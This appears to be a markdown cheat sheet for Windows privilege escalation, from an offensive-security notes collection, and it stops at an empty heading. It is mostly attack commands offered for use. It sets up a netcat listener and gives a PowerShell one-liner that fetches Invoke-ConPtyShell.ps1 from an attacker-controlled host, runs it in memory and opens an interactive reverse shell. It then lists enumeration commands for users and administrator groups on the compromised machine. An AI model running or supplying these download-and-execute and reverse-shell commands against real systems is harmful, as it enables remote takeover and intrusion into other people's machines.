 # Windows Privilege Escalation

## Upgrade Shell

[Fully interactive reverse shell on Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#fully-interactive-reverse-shell-on-windows)

Server Side

``` bash
stty raw -echo; (stty size; cat) | sudo nc -lvnp myport
```

Client Side

``` bash
powershell IEX(IWR http://myip/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell myip myport
```

File [Invoke-ConPtyShell.ps1](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

## User Enumeration

Current User

``` bash
whoami
```

``` bash
net user <username>
```

``` bash
whoami /groups
```

Other Users

``` bash
net user
```

``` bash
net localgroup administrators
```

Hostname

``` bash
hostname
```

## Installed and Patch Levels
